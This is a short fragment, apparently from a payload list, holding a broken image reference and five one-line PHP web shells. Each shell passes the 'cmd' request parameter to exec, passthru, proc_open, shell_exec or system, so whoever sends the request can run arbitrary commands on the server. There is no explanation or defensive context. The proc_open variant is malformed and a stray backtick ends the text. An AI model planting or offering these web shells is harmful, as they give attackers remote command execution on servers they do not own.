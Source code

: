 1. `<?php exec($_REQUEST["cmd"]);?>`
2. `<?php passthru($_REQUEST["cmd"]);?>`
3. `<?php proc_open($_REQUEST["cmd"]);?>`
4. `<?php shell_exec($_REQUEST["cmd"]);?>`
5. `<?php system($_REQUEST["cmd"]);?>``